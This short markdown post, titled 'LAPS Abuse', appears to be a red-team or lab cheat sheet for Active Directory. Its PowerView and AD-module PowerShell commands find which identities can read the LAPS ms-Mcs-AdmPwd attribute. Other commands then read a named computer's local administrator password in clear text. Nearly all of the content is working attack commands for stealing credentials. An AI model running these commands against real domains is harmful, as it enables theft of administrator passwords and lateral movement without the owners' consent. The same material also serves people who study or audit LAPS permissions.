 ```yaml
---
layout: post
date: 23/11/2022
author: Aswin Gopalakrishnan
title: LAPS Abuse
---
```


## PowerView

### Find Users Who Can Read Passwords in Clear Text
```bash
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
    ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and
    ($_.ActiveDirectoryRights -match 'ReadProperty')
} | ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_
}
```

## AD Module

1. Import All Module
```bash
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```
2. Get Permissions
```
C:\AD\Tools\Get-LapsPermissions.ps1
```
3. View Password
```bash
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
The `Get-AdmPwdPassword` command uses the LAPS module.